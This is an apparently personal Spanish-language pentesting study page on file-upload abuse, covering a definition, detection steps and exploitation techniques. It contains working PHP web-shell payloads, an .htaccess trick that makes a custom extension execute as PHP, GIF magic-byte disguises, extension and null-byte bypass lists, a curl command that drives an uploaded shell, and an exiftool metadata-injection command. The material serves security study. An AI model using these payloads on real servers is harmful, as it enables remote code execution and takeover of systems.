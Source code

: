 # Abuso de subidas de archivos

***

* Tags: #OWASP\_TOP\_10 #vulnerabilidad #hacking #file\_upload #exploiting

***

## Definición

> El **abuso de subida de archivos** es una vulnerabilidad de seguridad que ocurre cuando un atacante carga intencionadamente archivos maliciosos en un sistema o aplicación web que permite a los usuarios cargar archivos. Esto puede conducir a consecuencias graves, como la ejecución de código malicioso en el servidor, la propagación de malware, o la manipulación de datos. La falta de controles adecuados de seguridad en la subida de archivos puede permitir que los atacantes exploten esta vulnerabilidad para comprometer la integridad y la disponibilidad del sistema afectado.
>
> Si por ejemplo el atacante consigue subir un archivo PHP y el servidor web lo almacena, podría conseguir ejecución remota de comandos y tomar el control del servidor.
>
> Se suelen utilizar técnicas de **falsificación de tipos de archivos** para engañar a una aplicación web con el objetivo de que acepte un archivo malicioso como si fuera un archivo legítimo.

***

## Detección de vulnerabilidad

* **Evaluación de la interfaz de carga**: Prueba la interfaz de carga de archivos de la página web en busca de debilidades. Intenta cargar archivos con extensiones maliciosas o tamaños inusualmente grandes.
* **Exploración de parámetros de solicitud**: Utiliza herramientas de desarrollo del navegador o aplicaciones como \[\[Burpsuite]] para examinar las solicitudes HTTP relacionadas con la carga de archivos.
* **Prueba de carga de archivos maliciosos**: Intenta cargar archivos que contengan código malicioso, como archivos con scripts o malware incrustado.
* **Pruebas de carga de archivos múltiples**: Intenta cargar varios archivos a la vez para ver si la aplicación web maneja adecuadamente esta carga múltiple. Algunas vulnerabilidades pueden surgir cuando la aplicación no valida correctamente la carga de varios archivos simultáneamente.

***

## Explotación

Pueden darse distintos tipos y vías de ataque dependiendo del tipo de sanitización que esté empleando el servidor web. Comenzamos con el caso en el que no hay ninguna restricción a la hora de subir archivos, donde podemos subir un script en **php** (suponiendo que en la aplicación web se interprete php) como el siguiente:

```php
<?
	system($_GET['cmd']);
?>
```

Deberíamos usar el parámetro para ejecutar las instrucciones que nos plazca.

### Validación a nivel de navegador

Si la validación que se realiza al archivo subido se hace desde nuestro navegador, es decir, se utiliza un script al que tenemos acceso para controlar las extensiones de los archivos, podemos eliminar la restricción desde el propio navegador.

En el siguiente ejemplo, se utiliza una función para validar si el archivo es correcto, por lo que podemos eliminarla directamente para burlar la validación (se tendría que eliminar desde onsubmit hasta el final):

!\[\[Pasted image 20231008214641.png]]

### Validación a nivel de servidor

Si la validación se realiza desde el propio servidor, podemos intentar distintas vías de ataque, dependiendo del nivel de sanitización de la aplicación web.

#### Cambio de extensión del archivo

Puede ser que la aplicación web bloqueé algunos tipos de extensiones, pero podemos probar con los diferentes tipos de extensiones que pueden ser establecidas para un archivo, pudiendo resultar en un caso exitoso. Algunos ejemplos de cambio de extensiones posibles son los siguientes:

* **PHP**: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module.
* **ASP**: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml.

Los cambios de extensión los realizaremos interceptando la petición desde \[\[Burpsuite]].

#### Crear nueva política para interpretar extensiones a nuestro gusto (.htaccess)

Frente a validaciones que se estén aplicando evitando introducir extensiones típicas, podemos utilizar el archivo **.htaccess** para decirle al servidor que interprete una extensión que nos plazca. Así podemos subir un archivo con dicha extensión para proceder con la explotación. Para ello, podemos subir un archivo llamado **.htaccess** con el siguiente contenido:

```
AddType application/x-httpd-php .test
```

De manera que ahora se interpretarán los archivos con extensión _.test_ como un script **php**.

#### Restricción de tamaño de envío

Puede darse el caso en el que la aplicación web no permite la subida de archivos mayores a cierto tamaño, por lo que nos impide introducir ciertos scripts más grandes de lo esperado. Esta validación se puede realizar también desde el propio navegador, de manera que si interceptamos la petición con \[\[Burpsuite]] y vemos que el tamaño máximo permitido está hardcodeado, podemos simplemente aumentarlo y debería funcionar.

En el caso en el que no se esté realizando la validación por el lado del servidor, podemos tratar de reducir nuestro script lo máximo posible. Suponiendo que estamos utilizando un script como el visto al principio de la sección, podemos reducirlo bastante:

```php
<?=`$_GET[0]`?>
```

Si no funcionase, también podríamos probar con lo siguiente:

```php
<?php system($_GET[0]);?>
```

#### Restricción con el tipo de archivo (magic numbers)

Cuando una aplicación web verifica que el archivo subido tiene la extensión deseada, se podría estar realizando a través de la cabecera de la petición _Content-Type_, de manera que si no está la deseada, no se sube el archivo correctamente. Si se está realizando esta sanitización, podemos probar simplemente con cambiar la cabecera a la que espera la aplicación web. Por ejemplo, si la aplicación espera una imagen y hemos subido un archivo **php**, la cabecera tendrá el valor _Content-Type: application/x-php_, pero si la modificamos a la deseada _Content-Type: image/jpg_ puede ser que el servidor la acepte.

Pasamos ahora a hablar de los **magic numbers**, que son secuencias específicas de bytes ubicadas al comienzo de un archivo que se utilizan para identificar el tipo o formato del archivo. Estas secuencias sirven como marcas distintivas que permiten a sistemas operativos y aplicaciones reconocer el tipo de archivo, independientemente de su extensión o nombre. Cada tipo de archivo tiene su propio número mágico característico. Podemos encontrar los **magic numbers** asociados a cada archivo en [Wikipedia](https://en.wikipedia.org/wiki/List\_of\_file\_signatures).

Suponiendo que la validación que se está realizando la archivo subido es a través de los **magic numbers**, si cambiamos los mismos de un archivo podría funcionar y que la aplicación acepte el archivo, además de modificar el campo de _Content-Type_ mencionado anteriormente. Si tomamos como ejemplo el script mencionado anteriormente, pero queremos hacerlo pasar por un _GIF_, el script quedaría de la siguiente manera:

```php
GIF8;

<?
	system($_GET['cmd']);
?>
```

En este caso, para introducir los **magic numbers** podemos hacerlo con un editor cualquiera de texto, pero si los bytes que tenemos que introducir no son legibles, tendremos que hacer uso de alguna herramienta que trabaje con hexadecimales, como por ejemplo **xxd**.

#### Ataques de doble extensión

Podemos tratar de burlar la validación del archivo añadiendo la extensión válida antes de la extensión de ejecución, además de concatenarla con las posibles extensiones mencionadas al inicio de la página. Además, podemos intentar añadir un _null-byte_, y jugar con todas las maneras. De esta manera que los archivos podrían quedar de la siguiente manera:

* file.png.php
* file.png.Php5
* file.php%00
* file.png.pHp5
* file.php%00.png
* ...

#### Evitar descarga de archivo

Una vez hayamos subido nuestro archivo, puede ser que la única manera de visualizar el mismo sea descargándolo, de manera que si es un script, no podemos ejecutarlo. Para evitar la descarga, podemos hacer una petición a través de la consola con _curl_:

```bash
curl -s -X GET "http://ruta/a/cmd.php" -G --data-urlencode "cmd=<COMANDO>"
```

#### Metadatos de una archivo

Un **metadato** es una información que describe o proporciona datos sobre otros datos, son detalles que ofrecen contexto y significado a la información principal. Para visualizar los **metadatos** de una archivo, podemos utilizar \[\[ExifTool]].

Una vez conocido el concepto, lo podemos utilizar para inyectar código malicioso en un archivo que queramos subir, de manera que si en el servidor se procesa la foto, puede ser que se ejecute el código introducido. Para ello podemos ejecutar el siguiente comando:

```bash
exiftool -Comment='<?php system("<COMANDO>")'
```

***

## Ejemplos prácticos

* [file\_upload\_vulnerability\_scenarios](https://github.com/moeinfatehi/file\_upload\_vulnerability\_scenarios)
